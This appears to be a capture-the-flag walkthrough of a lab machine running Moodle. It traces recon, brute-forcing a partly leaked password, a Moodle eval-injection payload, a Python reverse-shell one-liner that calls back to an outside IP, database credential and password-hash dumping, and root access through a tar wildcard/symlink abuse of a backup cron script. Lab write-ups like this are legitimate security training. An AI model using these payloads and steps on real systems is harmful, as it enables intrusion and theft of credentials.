 Okay, first of all - we do some info gathering. Using nmap says we have an apache httpd server and nothing more. Searching through the website reveals nothing (checking source, running nikto and checking cookies/http headers).
From here I was stuck, so I went to the forum to check for some hints - it seems like there is a corrupted file. Obviously, it should be in /images folder because it contains most of the files. Checking every photo will be time consuming, but this is the only way (or to write a small script).
```
root@kali:~/Downloads# strings 5.png
Hi Servicedesk,
I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.
Could you guys figure out what the last charachter is, or just reset it?
Thanks,
Giovanni
```
Now, we should find a login page. I used dirb to run again a common word list and found a few interesting directories, one of them is obviously the primary suspect (as a student, I can't believe I didn't think about it):
```
root@kali:~/Downloads# dirb http://10.10.10.153

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Mar  5 14:16:34 2019
URL_BASE: http://10.10.10.153/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.153/ ----
==> DIRECTORY: http://10.10.10.153/css/                                                                               
==> DIRECTORY: http://10.10.10.153/fonts/                                                                             
==> DIRECTORY: http://10.10.10.153/images/                                                                            
+ http://10.10.10.153/index.html (CODE:200|SIZE:8028)                                                                 
==> DIRECTORY: http://10.10.10.153/javascript/                                                                        
==> DIRECTORY: http://10.10.10.153/js/                                                                                
==> DIRECTORY: http://10.10.10.153/manual/                                                                            
==> DIRECTORY: http://10.10.10.153/moodle/                                                                            
+ http://10.10.10.153/phpmyadmin (CODE:403|SIZE:297)                                                                  
+ http://10.10.10.153/server-status (CODE:403|SIZE:300) 
```
Now we want to login to Giovanni's user.
we immidiately can see that the teachers name is Giovanni Chhatta therefor it's the login name. Now, we know we have a missing char at the end of the pass, so let's use bruteforce with Hydra to find it quickly. I created a password file with python:
```
import string
password="Th4C00lTheacha"
for x in string.printable:
    print(password+x)
```
and then used it to crack the pass with Hydra. Unfortunately, it didn't work, Hydra only produced false-positives. I decided to write my own brute forcer, you can check it inside the files. You can crack it with hydra, but I didn't want to do that when I can write a quick script.

Now that we are in the system, what do we do? Obviously, we look for an exploit. Googling a bit helps to find the version of our moodle which is 3.4 (click on "Moodle Docs for this page"). I must admit, I tried several exploits until I found this one:
https://blog.ripstech.com/2018/moodle-remote-code-execution/#substitute_variables

First of all, read it. It's interesting + let's you know what you are going to do. Now that we know we need to open a calculated question, we input the calculated formula "/*{a*/`$_GET[0]`;//{x}}". It gives us the ability to execute eval() via the GET request. Instead of writing /etc/passwd (which you probably tried and failed, because we cannot write to folders with our current user), we want to get a remote shell. Now, let me save you some time - we want interactive shell, thus netcat won't we a good option. I used python shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("**10.0.0.1**",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
As seen in the video, we append the shell at the end of the query as follows: `&0=(OUR_SHELL)`. 

Okay, so now we have a shell and the current user is /var/wwww and we cannot read giovanni's folder. We need to find some way to log into his account (this is why I wrote we need interactive shell). I personally know that usually important information is stored in config.php, but googling for configuration file for moodle, or doing some enumeration like searching for 'root' keywords in file will help us to find some tail. Opening config.php in /moodle folder reveals credentials for mariadb. 
We login to it and get our information:
```
$ mysql -h localhost -P 3306 -u root -p*** moodle
show tables;
Tables_in_moodle
.
.
.
```
we are interested in mdl_user_password_history. For some reason, the output wasn't on the screen so I had to write it into a file, so I reconnected:
```
$ mysql -h localhost -P 3306 -u root -p**** moodle > output
select * from mdl_user_password_history;
\q
$ cat output
...
```
We notice Giovannibak with a hash (easy to crack). This is the password for Giovanni's account, we almost have the user.
Now we want to upgrade our shell in order to login to his user:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@teacher:/var/www/html/moodle/question$ 
www-data@teacher:/var/www/html/moodle/question$ su giovanni
su giovanni
Password: ****
giovanni@teacher:/var/www/html/moodle/question$ cd ~
cd ~
giovanni@teacher:~$ ls
ls
user.txt  work
```

Next to root:
The root part took a while for me, mostly because I read a hint in the forum about setuid's and was waisting a lot of time searching for nothing. I spend a lot of time trying to find a special setuid files, which were not present (except from the basic files which are not exploitable).
Now, because the machine is depricated, I will sum up the priv escalation quickly - we have a script called backup.sh which runs every x mins. One can see it by inspecting ps -aux or using a tool like pspy64. Opening the file revelas the following:
```
cat /usr/bin/backup.sh
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```
Straight away we notice that a tar archive is compressed form courses/* and decompressed in /home/giovanni/work. We can exploit a know tar weakness with wildcards (\*), you can read more here: https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt

Now, all we need to do is go into courses and set our arguments as files. You can run a shell.sh files that will connect back to your computer, but I just wanted to get the root.txt, so I created a symlink to root from courses, so when the tar will be compressed, accessing courses will read root's folder contents:
```
giovanni@teacher:~/work$ ln -s /root/ courses
giovanni@teacher:~/work$ ls -la
ls -la
total 16
drwxr-xr-x 4 giovanni giovanni 4096 Apr 18 15:29 .
drwxr-x--- 4 giovanni giovanni 4096 Nov  4 19:47 ..
lrwxrwxrwx 1 giovanni giovanni    6 Apr 18 15:29 courses -> /root/
drwxr-xr-x 3 giovanni giovanni 4096 Apr 18 15:27 courses.bak
drwxr-xr-x 3 giovanni giovanni 4096 Jun 27  2018 tmp
-rw-rw-rw- 1 giovanni giovanni    0 Apr 18 15:20 ts
```
Great, now all we need to do is to extract the newly created tar file in work folder and read root.txt:
```
giovanni@teacher:~/work/tmp/courses$ cat root.txt
cat root.txt
4f3a83b42ac7723a508b8ace7b8b1209
```
That's it. Great machine!

